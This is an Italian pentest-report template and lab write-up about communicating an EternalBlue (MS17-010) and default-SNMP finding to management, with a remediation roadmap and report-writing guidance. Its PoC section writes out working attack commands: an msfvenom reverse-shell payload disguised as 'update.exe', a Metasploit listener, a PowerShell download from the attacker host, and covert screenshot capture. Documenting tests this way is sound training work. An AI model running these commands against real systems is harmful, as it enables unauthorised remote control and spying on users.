






> [English](README.en.md) | **Italiano**

# Executive summary - template

> - **Fase:** Reporting - Executive Summary per Management e CISO
> - **Visibilita:** Zero - documento di reporting, nessuna attivita di rete
> - **Prerequisiti:** Completamento delle fasi di VA e Penetration Test; finding classificati con severity e CVE; accesso alle evidenze (screenshot, output)
> - **Output:** Documento sintetico con valutazione del rischio complessivo, key findings non tecnici, impatto sul business, roadmap di remediation prioritizzata

---

## 1 Panoramica del rischio (overall risk rating)

In base alle attività di Vulnerability Assessment e Penetration Testing effettuate, il livello di sicurezza complessivo dell'infrastruttura analizzata è classificato come:

# CRITICO (critical)

Il sistema target presenta vulnerabilità obsolete (Legacy Vulnerabilities) pubblicamente note che permettono a un attaccante non autenticato di ottenere il controllo amministrativo completo del sistema. La probabilità di compromissione è Molto Alta.

| metrica | valutazione |
| :--- | :--- |
| vulnerabilità totali | 12 (stimate) |
| critiche / alte | 2 |
| facilità di attacco | banale (script pubblici disponibili) |
| impatto aziendale | totale (perdita di confidenzialità e disponibilità) |

---

## 2 Scoperte principali (key findings)

Durante l'analisi sono state identificate le seguenti criticità prioritarie:

#### A. esecuzione di codice remoto (EternalBlue) - critico

È stata rilevata la presenza del protocollo SMBv1 non aggiornato. Questa configurazione espone l'azienda alla vulnerabilità EternalBlue (MS17-010).

- Impatto: Un attaccante può entrare nel sistema senza password e installare software malevolo (es. Ransomware, Spyware).
- Stato: Verificato (Exploit disponibile).

#### B. esposizione dati sensibili (SNMP) - medio

Il servizio di monitoraggio SNMP è configurato con la password di default ("public").

- Impatto: Un attaccante può mappare l'intera rete interna, elencare gli utenti e i software installati, facilitando attacchi successivi.

---

## 3 Impatto sul business

Se queste vulnerabilità venissero sfruttate da un attore malevolo, le conseguenze per l'organizzazione includerebbero:

1. Interruzione Operativa: Blocco dei sistemi tramite Ransomware.

2. Furto di Proprietà Intellettuale: Accesso non autorizzato a documenti riservati.

3. Danno Reputazionale: Perdita di fiducia da parte dei clienti e possibili sanzioni GDPR per data breach.

---

## 4 Raccomandazioni strategiche (roadmap)

Si consiglia di intraprendere le seguenti azioni correttive in ordine di priorità:

1. Immediato (Entro 24h): Applicare le patch di sicurezza Microsoft (MS17-010) su tutti i sistemi Windows. Se non possibile, disabilitare il protocollo SMBv1.

2. Breve Termine (1 settimana): Riconfigurare il servizio SNMP modificando la community string di default o limitando l'accesso ai soli indirizzi IP di gestione.

3. Lungo Termine: Implementare un sistema centralizzato di gestione delle patch (Patch Management) e condurre scansioni di vulnerabilità periodiche (trimestrali).

---

## 5 Dettagli tecnici e prove di concetto (PoC)

In questa sezione vengono documentate le evidenze tecniche delle vulnerabilità riscontrate e la metodologia utilizzata per validare l'impatto (Exploitation).

#### 5.1 Verifica vulnerabilità SMB (EternalBlue)

È stato utilizzato lo Scripting Engine di Nmap per interrogare il servizio SMB e verificare la mancata applicazione della patch MS17-010.

```Bash
nmap -p 445 --script smb-vuln-ms17-010 10.0.2.3
```

Spiegazione: Il comando scansiona la porta 445 (SMB) e lancia uno script specifico (`smb-vuln-ms17-010`) che invia pacchetti appositamente malformati per vedere come risponde il server, senza mandarlo in crash.

Output Ottenuto: L'output evidenzia lo stato `VULNERABLE` o fornisce dettagli sullo stato del sistema operativo che confermano la suscettibilità all'attacco.



#### 5.2 Simulazione attacco Client-Side (reverse shell)

Dato il livello critico di rischio, è stato simulato uno scenario di attacco completo ("Exploitation") per dimostrare le conseguenze di una compromissione. È stato utilizzato il framework Metasploit per generare un payload, aggirare le protezioni di base e ottenere il controllo remoto.

Fase A: Creazione dell'Agente Malevolo (Payload)

È stato creato un eseguibile (`update.exe`) configurato per connettersi a ritroso verso la macchina attaccante (Reverse TCP), bypassando i firewall che bloccano solo le connessioni in entrata.

```Bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f exe -o update.exe
```

Fase B: Configurazione del Server di Comando e Controllo (C2)

Sulla macchina attaccante è stato configurato un "Listener" per ricevere la connessione della vittima.

```Bash
msfconsole
```



```Bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.2.15
set LPORT 4444
run
```

Fase C: Esecuzione e Compromissione

Il file è stato trasferito sulla vittima simulando un download via PowerShell (per bypassare i filtri SmartScreen del browser) ed eseguito.

Comando (Lato Vittima - PowerShell): `Invoke-WebRequest -Uri "http://10.0.2.15:8080/update.exe" -OutFile "C:\Users\Public\update.exe"`

Risultato (Sessione Meterpreter): L'esecuzione ha aperto una sessione remota stabile (`Meterpreter session 1 opened`), garantendo accesso completo al sistema.





#### 5.3 Evidenze Post-Exploitation (proof of impact)

Una volta ottenuto l'accesso, sono stati eseguiti comandi per dimostrare l'entità del controllo acquisito.

1. Verifica del Sistema (`sysinfo`) Conferma che l'attaccante sta operando all'interno della macchina target Windows 10.

```Bash
meterpreter > sysinfo
```

1. Identificazione Utente (`getuid`) Mostra con quali privilegi sta girando l'attacco.

```Bash
meterpreter > getuid
```

1. Violazione della Privacy (`screenshot`) È stato catturato uno screenshot del desktop dell'utente a sua insaputa, dimostrando il rischio di spionaggio industriale.

```Bash
meterpreter > screenshot
```





---

## Analisi a basso livello: struttura e best practice dei report di sicurezza

### Anatomia di un executive summary professionale

Un Executive Summary in un assessment reale segue una struttura codificata dalle principali metodologie (PTES, OWASP, NIST SP 800-115):

```
Executive Summary (2-3 pagine max)
    |
    +-- 1. Engagement Overview
    |     - Scope (IP range, domini, esclusioni)
    |     - Metodologia (Black Box/Grey Box/White Box)
    |     - Finestra temporale del test
    |     - Limitazioni (es. no DoS, no social engineering)
    |
    +-- 2. Overall Risk Rating (semaforo visuale)
    |     - Critical / High / Medium / Low
    |     - Comparazione con assessment precedente (trend)
    |
    +-- 3. Key Findings (top 3-5, linguaggio business)
    |     - Impatto sul business, non dettagli tecnici
    |     - "Un attaccante puo accedere ai dati dei clienti"
    |       (non "SMBv1 buffer overflow in srv.sys")
    |
    +-- 4. Risk Matrix (visual)
    |     - Asse X: Probabilita di exploitation
    |     - Asse Y: Impatto sul business
    |
    +-- 5. Strategic Recommendations (roadmap)
    |     - Immediate (24-72h): patch critiche
    |     - Short-term (1-4 settimane): hardening
    |     - Long-term (1-6 mesi): architettura, training
    |
    +-- 6. Appendix Reference
          - Rimando al Technical Findings Report
```

### Audience e linguaggio

L'Executive Summary e destinato a decision-maker non tecnici (CISO, CTO, board):

| termine tecnico | traduzione business |
| :--- | :--- |
| remote code execution (rce) | "un attaccante puo prendere il controllo completo del server" |
| smb signing disabled | "le comunicazioni di rete non sono protette contro intercettazione" |
| windows eol | "il sistema operativo non riceve piu aggiornamenti di sicurezza" |
| cvss 9.8 | "rischio critico: sfruttabile da chiunque con competenze minime" |
| lateral movement via pth | "una volta dentro, l'attaccante puo spostarsi su tutti i computer della rete" |

### Metriche di rischio quantitative

In un report professionale, le affermazioni qualitative sono supportate da dati:

```
Statistiche di contesto (da citare nei report):
- Verizon DBIR 2024: 49% dei breach inizia con credenziali compromesse
- Mandiant M-Trends 2024: dwell time mediano 10 giorni (era 21 nel 2021)
- IBM Cost of Data Breach 2024: costo medio breach $4.88M
- Ransomware: tempo medio da accesso iniziale a encryption: 4.5 giorni
```

Queste statistiche trasformano un finding tecnico in un argomento per il budget di sicurezza.

---

## Blue team: il reporting come strumento di governance

### Ciclo di vita del report

Il report non e un documento statico. In un programma di sicurezza maturo:

1. **Draft review:** il penetration tester invia la bozza al team interno per fact-checking
2. **Contestualizzazione:** il team di sicurezza aggiunge contesto (compensating controls, business impact reale)
3. **Presentazione:** l'Executive Summary viene presentato al management con Q&A
4. **Remediation tracking:** ogni finding viene assegnato a un owner con SLA basato sulla severity
5. **Re-test:** dopo la remediation, il tester ri-verifica i finding (come nel lab Nessus con SMB Signing)
6. **Attestation letter:** documento finale che certifica la postura di sicurezza post-remediation

### Template e standard di riferimento

| standard | contenuto report | pubblico target |
| :--- | :--- | :--- |
| **ptes** (penetration testing execution standard) | executive summary + technical findings + appendix | generale |
| **owasp testing guide** | per-finding con remediation linkata a asvs | web applications |
| **nist sp 800-115** | scope + methodology + findings + recommendations | governo/compliance |
| **pci dss** | roc (report on compliance) con finding specifici per i 12 requisiti | payment card industry |

---

## Esperienza di laboratorio

La parte piu istruttiva e stata la transizione dal finding tecnico alla comunicazione business. Il finding "SMBv1 Remote Code Execution" nel report tecnico diventa "Un attaccante non autenticato puo ottenere il controllo completo del sistema senza alcuna interazione dell'utente" nell'Executive Summary. La sfida e mantenere l'accuratezza tecnica eliminando il gergo.

La simulazione completa (Nmap, Metasploit, Meterpreter, screenshot del desktop) ha prodotto le evidenze visive che rendono un Executive Summary convincente: lo screenshot del desktop della vittima catturato da remoto e l'evidenza piu efficace per far capire al management l'impatto di una vulnerabilita - piu di qualsiasi punteggio CVSS.

La struttura del template (Panoramica Rischio, Key Findings, Business Impact, Roadmap) segue il pattern "bad news first, then the fix": il management vuole sapere immediatamente "quanto siamo messi male" e subito dopo "cosa dobbiamo fare per risolvere". I dettagli tecnici (PoC, comandi, output) sono in appendice per il team di remediation.
